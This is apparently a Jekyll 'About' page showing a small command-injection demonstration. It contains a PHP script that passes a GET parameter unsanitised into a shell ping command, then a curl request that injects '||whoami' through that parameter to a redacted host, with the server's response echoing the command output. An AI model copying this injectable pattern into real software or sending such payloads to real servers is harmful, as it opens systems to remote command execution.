 ```yaml
---
layout: page
title: About
permalink: /about/
---
```


check.php
{% highlight php linenos %}
<?php
$host = $_GET['hostname'];

if(!empty($host)){
    system("ping -c3 $host");
}
?>
{% endhighlight %}
<br>
{% highlight bash %}
curl -i "http://[redacted].com/check.php?hostname=2%3E%2Fdev%2Fnull%7C%7Cwhoami"

HTTP/1.1 200 OK
Server: nginx/1.9.9
Date: Fri, 31 Dec 1999 23:59:59 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

skidalot
{% endhighlight %}
